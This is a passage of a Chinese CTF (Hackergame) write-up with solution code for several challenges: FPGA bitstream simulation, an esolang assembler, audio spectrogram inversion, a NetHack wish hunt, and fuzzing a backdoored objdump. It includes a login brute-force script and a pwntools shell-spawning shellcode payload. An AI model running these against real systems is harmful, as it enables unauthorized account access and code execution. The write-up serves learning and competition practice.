		tmp[16]=0;
		int flag=0;
		for(int j=0;j<16;j++)
		{
			if(tmp[j]>='A'&&tmp[j]<='Z')flag|=1;
			else if(tmp[j]>='a'&&tmp[j]<='z')flag|=2;
			else if(tmp[j]>='0'&&tmp[j]<='9')flag|=4;
			else flag|=8;
		}
		if(flag==15)
		{
			puts(tmp);
			break;
		}
	}
}

int main()
{
	uint ts=1632325140;
	for(int i=-300;i<=2000;i++)gen(ts-i);
}
```

爆破代码如下：

```python
import requests
from multiprocessing.dummy import Pool
from tqdm import tqdm

pwd = list(map(lambda x: x[:-1], open('list.txt').readlines()))


headers = {'cookie': 'xxx'}


def trypwd(p):
    data = {
        'csrfmiddlewaretoken': 'xxx',
        'username': 'admin',
        'password': p
    }
    r = requests.post('http://202.38.93.111:15002/login', headers=headers, data=data)
    if '用户名或密码错误' not in r.text:
        print(p)


p = Pool(10)
list(tqdm(p.imap(trypwd, pwd), total=len(pwd)))
```

## 外星人的音游掌机

搜索 `iCE40-HX1K-TQ144 reverse` 等关键词，可以搜索到 [Project IceStorm](http://www.clifford.at/icestorm/)，一套针对 iCE40 的开源项目，其中提供了将 bitstream 转换为 Verilog 的工具。

这个 Verilog 中，由于加法等操作都被编译为了单个 bit 的运算，很难人眼看出逻辑，所以只能想办法 fuzz。

他的结构比较简单，只有 `assign xx = ...` 和 `always @(posedge clk) if (xx) yy <= ...` 两种语句，不难写程序来模拟：先执行完所有的 `always @(posedge clk)`，然后按拓扑序执行 `assign`。

（运行下面的程序之前需要先删除 `.v` 文件中的所有注释）

```python
import os, hashlib

wires = set()
regs = set()
deps = {}
assigns = {}
always = []
for line in open('t1.v').readlines():
    line = line.strip()
    if len(line) == 0 or line == 'endmodule':
        continue
    assert line[-1] == ';'
    line = line.replace("1'b1", '1').replace("1'b0", '0')
    a, b = line[:-1].split(' ', 1)
    if a == 'wire':
        if b != 'clk':
            wires.add(b)
    elif a == 'reg':
        assert b.endswith(' = 0')
        regs.add(b[:-4])
    elif a == 'assign':
        b, c = b.split(' = ', 1)
        assert b not in assigns
        deps[b] = set()
        t = c
        for o in '?:()!&|':
            t = t.replace(o, ' ')
        for g in t.split():
            assert g in wires or g in regs or g in ['0', '1']
            if g != '0' and g != '1':
                deps[b].add(g)
        assigns[b] = c
    elif a == 'always':
        assert b.startswith('@(posedge clk) if')
        always.append(b[15:].replace('<=', '=').replace(') ', ') next_', 1))
wires = sorted(wires)
regs = sorted(regs)

deg = {x: 0 for x in wires}
depr = {x: [] for x in wires}
for x, y in deps.items():
    for z in y:
        if z in wires:
            depr[z].append(x)
            deg[x] += 1
for x in wires:
    depr[x].sort()
q = []
for x, y in deg.items():
    if y == 0:
        q.append(x)
fq = []
for i in range(len(wires)):
    x = q[i]
    for y in depr[x]:
        deg[y] -= 1
        if deg[y] == 0:
            q.append(y)
# print(q)

code = []
code.append('''
#include<cstdio>

int main(){
while(1){

char tmp[%d];
scanf("%%s", tmp);
''' % len(wires + regs))
for i, x in enumerate(wires + regs):
    code.append('bool %s = tmp[%d] - 48;' % (x, i))
for reg in regs:
    code.append('bool next_%s = %s;' % (reg, reg))
for at in always:
    code.append(at + ';')
for reg in regs:
    code.append('%s = next_%s;' % (reg, reg))
for x in q:
    if x in assigns:
        code.append('%s = %s;' % (x, assigns[x]))
    else:
        print(x, 'not assigned')
for i, x in enumerate(wires + regs):
    code.append('tmp[%d] = %s + 48;' % (i, x))
code.append('''
puts(tmp);
fflush(stdout);
}
}
''')
code = '\n'.join(code)
print(hashlib.md5(code.encode()).hexdigest())
open('code.cpp', 'w').write(code)
os.system('g++ code.cpp -o code -O2')

print(len(wires + regs))
open('vars.txt', 'w').write(repr(wires + regs))
```

编译出的 `code` 文件每次会模拟一个 clock 内发生的事情。

这样就可以暴搜出满足条件的状态了：

```python
from subprocess import Popen, PIPE

p = Popen('./code', stdin=PIPE, stdout=PIPE)


def emu(s):
    p.stdin.write(''.join(map(str, s)).encode() + b'\n')
    p.stdin.flush()
    return list(map(lambda x: x - 48, p.stdout.readline().strip()))


vars = eval(open('vars.txt').read())


def find(x):
    i = 0
    while vars[i] != x:
        i += 1
    return i


btns = [find('btn1'), find('btn2'), find('btn3'), find('btn4')]
led = find('led')


st = [0] * len(vars)
f = {}
q = []
q.append(st)
f[tuple(st)] = ''
T = 0
while len(q):
    T += 1
    st = q.pop(0)
    tst = tuple(st)
    for i in range(1 << len(btns)):
        cur = st[:]
        for j in range(len(btns)):
            cur[btns[j]] = i >> j & 1
        nxt = emu(cur)
        tnxt = tuple(nxt)
        if tnxt not in f:
            if nxt[led]:
                print(nxt)
                exit()
            f[tnxt] = ''
            q.append(nxt)
```

而在这之后，按键实际上还需要不停切换，才能让串口有输出。操作代码如下：

```python
from subprocess import Popen, PIPE

p = Popen('./code', stdin=PIPE, stdout=PIPE)


def emu(s):
    p.stdin.write(''.join(map(str, s)).encode() + b'\n')
    p.stdin.flush()
    return list(map(lambda x: x - 48, p.stdout.readline().strip()))


vars = eval(open('vars.txt').read())


def find(x):
    i = 0
    while vars[i] != x:
        i += 1
    return i


btns = [find('btn1'), find('btn2'), find('btn3'), find('btn4')]
led = find('led')
tx = find('tx')

st = [1, 1, 1, 0, 1, 0, 1, 0, 0, 0, 0, 0, 1, 1, 1, 0, 1, 1, 1, 1, 0, 1, 0, 0, 1, 0, 1, 0, 1, 0, 0, 1, 1, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 1, 1, 1, 1, 0, 0, 1, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 0, 0, 1, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 1, 0, 0, 0, 1, 1, 1, 0, 1, 0, 0, 1, 0, 0, 1, 1, 1, 1, 0, 0, 1, 1, 0, 1, 0, 0, 0, 0, 1, 0, 1, 1, 0, 0, 0, 1, 1, 1, 1, 0, 0, 0, 0, 0, 1, 0, 1, 0, 0, 1, 1, 0, 0, 1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 1, 0, 0, 1, 0, 1, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 1, 0, 1, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 0, 0, 1, 0, 0, 1, 1, 1, 0, 1, 0, 1, 1, 0, 0, 0, 1, 0, 0, 1, 0, 0, 0, 1, 0, 0, 0, 1, 0, 0, 1, 1, 0, 1, 0, 1, 1, 0, 0, 1, 1, 0, 0, 1, 0, 0, 0, 1, 0, 1, 0, 1, 0, 0, 0, 0, 1, 0, 1, 0, 1, 0, 1, 0, 0, 1, 1, 1, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 1, 1, 0, 0, 0, 0, 1, 0, 1, 1, 0, 0, 0, 0, 0, 1, 0, 0, 1, 1, 1, 0, 0, 0, 0, 0, 1, 1, 0, 0, 0, 1, 1, 0, 0, 1, 1, 0, 0, 0, 1, 0, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 0, 1, 1, 1, 0, 1, 1, 0, 0, 1, 1, 0, 0, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 1, 1, 0, 0, 0, 1, 0, 1, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0]

o = []
for _ in range(1000000):
    assert st[led]
    o.append(st[tx])
    mask = 6 if _ & 1 else 4
    for j in range(len(btns)):
        st[btns[j]] = mask >> j & 1
    st = emu(st)
o = o[6252:]
rr = []
for i in range(0, len(o) - 261, 261):
    for j in range(i, i + 261):
        assert o[j] == o[i]
    rr.append(o[i])
open('dump.txt', 'w').write(''.join(map(str, o)))
open('dump2.txt', 'w').write(''.join(map(str, rr)))
```

最后得到的串口输出，每 261 个是一段，里面每 23 段会有 8 段 01 代表一个 ascii 字符，具体脚本如下：

```python
s = open('dump2.txt').read()
r = []
i = 0
while i < len(s):
    r.append(int('0b' + s[i + 8:i:-1], 2))
    i += 23
    if len(r) == 6:
        i -= 1
print(bytes(r))
```

## JUST BE FUN

### 题目大意

题目需要我们用一种在三维矩阵里面的 Esolang 来进行编程任务。

这种语言是栈式虚拟机，但是 program counter 却是在三维矩阵中移动的，条件判断只能改变移动的方向。

要解决的任务是，给一个形如 `1+2*3+5` 的表达式，假设每个运算符优先级相同并且是左结合的，求出他的值。

### 我的做法

先写类似汇编的东西，把他按照跳转语句分成若干个基本块。把第 i 个基本块放在 $(i,1\dots len,128)$，第 $i$ 个基本块末尾的跳转指令放到 $(i,i+100,128)$。跳转时，程序先运行到 $(i,i+100,128\pm i)$，然后运行到 $(jumpdest,1,128\pm i)$，再到 $(jumpdest,1,128)$（其中 $jumpdest$ 是跳转目标）。每个跳转都在不同层，因此完全不会互相影响。

汇编如下：

```
entry:
    input
    sub 48
    goto main_loop

main_loop:
    input
    dup
    beq 0, exit
    input
    sub 48
    swap 1,2 ; current: op arg2 arg1
    dup
    beq 42, process_mul
    dup
    beq 94, process_pow
    dup
    beq 120, process_xor
    dup
    beq 124, process_or
    dup
    beq 60, process_lshift

    pop
    add
    goto main_loop

process_mul:
    pop
    mul
    goto main_loop

process_pow:
    pop
    push 1
    swap 1,2 ; arg2 res arg1
    goto pow_loop
pow_loop:
    dup
    bne 0, pow_work
    pop
    swap 1,2
    pop
    goto main_loop
pow_work:
    sub 1
    swap 1,3 ; arg1 res arg2
    dup ; arg1 arg1 res arg2
    swap 2,3
    mul ; res arg1 arg2
    swap 1,3
    swap 2,3
    goto pow_loop

process_lshift:
    pop ; arg2 arg1
    goto lshift_loop
lshift_loop:
    dup
    bne 0, lshift_work
    pop
    goto main_loop
lshift_work:
    sub 1
    swap 1,2
    mul 2
    swap 1,2
    goto lshift_loop

process_xor:
    pop
    push 0
    push 1
    swap 1,3
    swap 2,4 ; a b 2^k res
    goto xor_loop
xor_loop:
    dup
    bne 0, xor_work
    swap 1,2
    dup
    bne 0, xor_work
    pop
    pop
    pop
    goto main_loop
xor_work:
    dup
    mod 2 ; a%2 a b 2^k res
    swap 1,3
    dup ; b b a a%2 2^k res
    mod 2
    swap 2,4 ; b%2 a%2 a b 2^k res
    add
    mod 2 ; low(a)^low(b) a b 2^k res
    swap 1,4
    dup ; 2^k 2^k a b low(a)^low(b) res
    swap 2,5
    mul ; (low(a)^low(b))*2^k a b 2^k res
    swap 2,5
    add ; res b 2^k a
    swap 1,2
    div 2 ; b res 2^k a
    swap 1,3
    mul 2 ; 2^k res b a
    swap 1,4
    div 2; a res b 2^k
    swap 2,3
    swap 3,4
    goto xor_loop


process_or:
    pop
    push 0
    push 1
    swap 1,3
    swap 2,4 ; a b 2^k res
    goto or_loop
or_loop:
    dup
    bne 0, or_work
    swap 1,2
    dup
    bne 0, or_work
    pop
    pop
    pop
    goto main_loop
or_work:
    dup
    mod 2 ; a%2 a b 2^k res
    swap 1,3
    dup ; b b a a%2 2^k res
    mod 2
    swap 2,4 ; b%2 a%2 a b 2^k res
    add
    add 1
    div 2 ; low(a)|low(b) a b 2^k res
    swap 1,4
    dup ; 2^k 2^k a b low(a)|low(b) res
    swap 2,5
    mul ; (low(a)|low(b))*2^k a b 2^k res
    swap 2,5
    add ; res b 2^k a
    swap 1,2
    div 2 ; b res 2^k a
    swap 1,3
    mul 2 ; 2^k res b a
    swap 1,4
    div 2; a res b 2^k
    swap 2,3
    swap 3,4
    goto or_loop


exit:
    pop
    printint
    exit
```

汇编器如下：

```python
code = open('code.txt').read().split('\n')
blocks = {}
cur_label = ''


def newblk(label):
    global cur_label
    blocks[label] = []
    cur_label = label


for line in code:
    if ';' in line:
        line = line[:line.find(';')]
    line = line.strip()
    if line == '':
        continue
    if line.endswith(':'):
        newblk(line[:-1])
        continue
    if ' ' in line:
        op, o = line.split(' ', 1)
        args = list(map(lambda x: x.strip(), o.split(',')))
    else:
        op = line
        args = []
    if op == 'input':
        assert len(args) == 0
        blocks[cur_label] += [('input',)]
    elif op == 'add':
        if len(args) == 1:
            blocks[cur_label] += [('push', int(args[0])), ('add',)]
        else:
            assert len(args) == 0
            blocks[cur_label] += [('add',)]
    elif op == 'sub':
        if len(args) == 1:
            blocks[cur_label] += [('push', int(args[0])), ('sub',)]
        else:
            assert len(args) == 0
            blocks[cur_label] += [('sub',)]
    elif op == 'mul':
        if len(args) == 1:
            blocks[cur_label] += [('push', int(args[0])), ('mul',)]
        else:
            assert len(args) == 0
            blocks[cur_label] += [('mul',)]
    elif op == 'div':
        if len(args) == 1:
            blocks[cur_label] += [('push', int(args[0])), ('div',)]
        else:
            assert len(args) == 0
            blocks[cur_label] += [('div',)]
    elif op == 'mod':
        if len(args) == 1:
            blocks[cur_label] += [('push', int(args[0])), ('mod',)]
        else:
            assert len(args) == 0
            blocks[cur_label] += [('mod',)]
    elif op == 'beq':
        assert len(args) == 2
        new_label = cur_label + '_E'
        blocks[cur_label] += [('push', int(args[0])), ('sub',), ('beqz', args[1], new_label)]
        newblk(new_label)
    elif op == 'bne':
        assert len(args) == 2
        new_label = cur_label + '_E'
        blocks[cur_label] += [('push', int(args[0])), ('sub',), ('beqz', new_label, args[1])]
        newblk(new_label)
    elif op == 'goto':
        assert len(args) == 1
        blocks[cur_label] += [('push', 0), ('beqz', args[0], args[0])]
    elif op == 'swap':
        assert len(args) == 2
        blocks[cur_label] += [('push', int(args[0])), ('push', int(args[1])), ('swap',)]
    elif op == 'push':
        assert len(args) == 1
        blocks[cur_label] += [('push', int(args[0]))]
    elif op == 'pop':
        assert len(args) == 0
        blocks[cur_label] += [('pop',)]
    elif op == 'dup':
        assert len(args) == 0
        blocks[cur_label] += [('dup',)]
    elif op == 'exit':
        assert len(args) == 0
        blocks[cur_label] += [('exit',)]
    elif op == 'printint':
        assert len(args) == 0
        blocks[cur_label] += [('printint',), ('push', 10), ('printchar',)]
    else:
        print(line)
        assert False


def gen_push(n):
    assert n >= 0
    if n < 10:
        return str(n)
    a = gen_push(n // 9) + '9*'
    if n % 9:
        a += str(n % 9) + '+'
    return a


codes = []
codes_id = {}

for label, block in blocks.items():
    # print(label, block)
    assert block[-1][0] == 'beqz' or block[-1][0] == 'exit'
    code = ''
    for stmt in block[:-1]:
        op = stmt[0]
        args = stmt[1:]
        if op == 'input':
            code += '~'
        elif op == 'push':
            code += gen_push(args[0])
        elif op == 'add':
            code += '+'
        elif op == 'sub':
            code += '-'
        elif op == 'mul':
            code += '*'
        elif op == 'div':
            code += '/'
        elif op == 'mod':
            code += '%'
        elif op == 'swap':
            code += '\\'
        elif op == 'pop':
            code += '$'
        elif op == 'dup':
            code += ':'
        elif op == 'printint':
            code += '.'
        elif op == 'printchar':
            code += ','
        else:
            print(stmt)
            assert False
    if block[-1][0] == 'beqz':
        nxt = block[-1][1:]
        code += '#'
    else:
        code += '@'
        nxt = ('entry', 'entry')
    print(len(codes), label, code, nxt)
    codes_id[label] = len(codes)
    codes.append((label, code, *nxt))

# print(len(codes))


def addmove(z, x0, y0, x1, y1):
    if x0 < x1:
        while x0 < x1:
            s[(x0, y0, z)] = '>'
            x0 += 1
    if x0 > x1:
        while x0 > x1:
            s[(x0, y0, z)] = '<'
            x0 -= 1
    while y0 > y1:
        s[(x0, y0, z)] = '^'
        y0 -= 1
    assert x0 == x1 and y0 == y1
    while z > 128:
        s[(x0, y0, z)] = ']'
        z -= 1
    while z < 128:
        s[(x0, y0, z)] = '['
        z += 1


s = {}
s[(0, 0, 0)] = '['
for i in range(1, 128):
    s[(0, 0, i)] = ' '
s[(0, 0, 128)] = 'v'

for i in range(len(codes)):
    s[(i, 1, 128)] = 'v'
    label, code, nxt_ez, nxt_ne = codes[i]
    assert len(code) < 50 + i
    code = code[:-1].ljust(50 + i, ' ') + code[-1]
    for j in range(len(code)):
        s[(i, 2 + j, 128)] = code[j]
    upos = len(code) + 1
    for j in range(i):
        s[(i, upos, 129 + j)] = ' '
        s[(i, upos, 127 - j)] = ' '
    addmove(129 + i, i, upos, codes_id[nxt_ez], 1)
    addmove(127 - i, i, upos, codes_id[nxt_ne], 1)

print(len(s))
res = []
for (x, y, z), v in s.items():
    res.append('(%d, %d, %d) -> %d' % (x, y, z, ord(v)))
res.append('END')
open('code_o.txt', 'w').write(' '.join(res))
```

## fzuu

按照 afl 教程操作：

```
./afl-fuzz -i ../fzuu/fuzz_in -o ../fzuu/fuzz_out ../fzuu/objdump_afl -d @@
```

很快能找到几组 crash：

```plain
$ xxd fuzz_out/crashes/id\:000000\,sig\:04\,src\:000323\,op\:flip1\,pos\:3 
00000000: 5331 3030 3017 c5c3 c537 c510 c5a4 c5c5  S1000....7......
00000010: 37c5 37c5 10c5 a4c5 c537 0fc5 c553 3130  7.7......7...S10
00000020: 17c5 10c5 c537 c5c5 c5c5 c500 0fc5 c553  .....7.........S
00000030: 7130 17c5 10c5 c537 c5ad c5c5 c500 0100  q0.....7........
```

调试发现一个奇怪的函数：`srec_scan_helper`，在原版 [bfd/srec.c](https://github.com/bminor/binutils-gdb/blob/master/bfd/srec.c) 中是没有的。



而点进这个 rdx，里面正是输入文件第六个字节开始的部分。这意味着他会直接把输入当成 shellcode 来执行。

这样 payload 就很简单了：

```python
from pwn import *
from base64 import b64encode

context.arch = 'amd64'
print(b64encode(bytes.fromhex('533130303017') + asm(shellcraft.sh())))
```

## p😭q

在 librosa 的文档可以看到 `melspectrogram` 的逆函数 `mel_to_audio`，其他函数也有类似的逆函数，最后 numpy 生成图片的部分可以手动解析一下。

```python
from PIL import Image, ImageSequence
import librosa
import numpy
import soundfile as sf

num_freqs = 32
quantize = 2
min_db = -60
max_db = 30
fft_window_size = 2048
frame_step_size = 512
window_function_type = 'hann'
red_pixel = [255, 0, 0]
white_pixel = [255, 255, 255]
sample_rate = 22050


im = Image.open('flag.gif')
g = []
for im2 in ImageSequence.Iterator(im):
    s = []
    for i in range(2, 130, 4):
        t = 91
        c = -60
        while t >= 0 and im2.getpixel((i, t)) == 1:
            t -= 1
            c += 1
        s.append(c)
    g.append(s)

spectrogram = numpy.array(g).transpose()
A = librosa.db_to_power(spectrogram / quantize)
B = librosa.feature.inverse.mel_to_audio(A, sample_rate, n_fft=fft_window_size, hop_length=frame_step_size, window=window_function_type)
sf.write('src.wav', B, sample_rate, subtype='PCM_24')
```

## Make a wish

按照提示在源代码中搜索 `hackergame`，可以发现影响最短的就是下面这一处，`makewish` 时需要随机数刚好为 233 才能成功。



在 NetHack Wiki 上可以找到 [Wish](https://nethackwiki.com/wiki/Wish)，里面详细讲解了许愿相关的各种东西。我在这几种方法里选择了一个看着比较顺眼的，Rubbing a magic lamp。（现在看来，这个选择应该还行，虽然可能不是概率最大的）（虽然我还是对 NetHack 几乎一无所知）

接下来就是要找个办法生成出神灯。而在此之前，需要先想办法自动化运行程序。

对于自动化运行程序，我给 `win/tty/wintty.c` 中获取按键的 `tty_nhgetch` 函数加上了记录按键和重放按键的功能，这样就可以方便的自动化了。



而对于生成神灯，我在 `src/mkobj.c` 里的 `mkobj` 函数加上了一些检测代码，检测到生成了就创建指定文件。



对于神灯的生成，经过实验，按 `.` 什么都不做也会让随机种子变化，而下一层地图的生成是在按下 `>` 时才进行的，所以可以在原地等一会再按 `>`。我使用了脚本来枚举等的次数：（`input_1a.txt` 里面是走到 `>` 的操作序列）

```python
import os

for i in range(1, 100):
    open('/tmp/key_input.txt', 'w').write(open('../input_1a.txt').read() + '106\n' + '46\n10\n10\n10\n' * i + '62\n113\n')
    os.system('../kill.sh')
    os.system('sudo -u Hacker /usr/games/nethack')
    if os.path.exists('/tmp/log2.txt'):
        print(i, 'ok')
        exit()
```

生成出神灯之后，可以手动走到神灯处拿起来，然后一直按 `.`，直到最终饿死。这里有个 trick，神灯一般生成在商店里，但是我们不需要购买，因为不买也可以许愿，而我们的目标只是许愿成功，并不是让游戏继续进行下去。同理，商店里的食物也是可以随便吃的。

另外最后最好是找商店主自杀一下验证神灯的 BUC 情况（之前在本地生成了若干轮，有不少 cursed 的，没有遇到过一个 blessed）

得到这个最优序列后，可以继续 fuzz 了：



```python
import os

rub_cmd = '''35
114
117
98
10
106
32
32
32
32
32
32
'''

s = open('../v3c.txt').readlines()

for i in range(len(s)):
    payload = ''.join(s[:i + 1]) + rub_cmd * 10 + '113\n'
    open('/tmp/progress.txt', 'w').write(str(i))
    open('/tmp/key_input.txt', 'w').write(payload)
    os.system('/usr/games/lib/nethackdir/nethack')
    if os.path.exists('/tmp/log3.txt'):
        print(i, 'ok')
        exit()
```

找到解之后，最后是和远程环境交互：

```python
from subprocess import run
from pwn import *
import os, sys, time, getch


rub_cmd = b'#rub\nj\n'

FN = 'v3c.txt'
payload = bytes(map(int, open(FN).readlines()))
lim = 4251
payload = payload[:lim] + rub_cmd * 1
r = process('stty raw -echo; nc 202.38.93.111 10047; stty sane', stdin=PTY, shell=True)
r.send(b'token\n')

time.sleep(2)
r.send(payload)


def urecv(tl=1):
    rr = b''
    while True:
        t = r.recv(10**6, tl)
        if t == b'':
            break
        rr += t
    return rr


fin = urecv()
if b'Player connection rate limit exceeded, please try again after' in fin:
    print('rate limit, retry')
    exit(1)
wish = [
    b'I will grant one wish!',
    b'Wish denied by hackergame committee.',
    b'For what do you wish'
]
t = ''
for i, x in enumerate(wish):
    if x in fin:
        t += chr(i + 97)
open('logw.txt', 'a').write(str(lim) + ' ' + t + '\n')
sys.stdout.write(fin)
while 1:
    x = getch.getch()
    r.send(bytes([ord(x)]))
    sys.stdout.write(urecv(.2))
```

看起来这道题到这就结束了，但是现在坑来了：本地能打通，远程打不通。

首先可以发现，窗口宽度会影响显示出来的 `--More--` 个数，进而影响到 exp 的执行。

接下来可以发现，远程环境的玩家名字是 `Hacker`，而名字宽度不同也会影响 `--More--` 个数。

而即使我在本地新建了一个 `Hacker` 用户操作，也没做到和远程的环境完全相同，这具体是为什么，就不得而知了。

在这些问题下，我只能对着远程 fuzz，上面最后一份代码就包含了对着远程 fuzz 的代码。

好在 fuzz 了一段时间之后还是成功了。

## 超 OI 的 Writeup 模拟器

### 果然还是逆向比较简单 & 这次没人两小时手做吧

可以在 https://docs.angr.io/examples 照抄。

```python
import angr
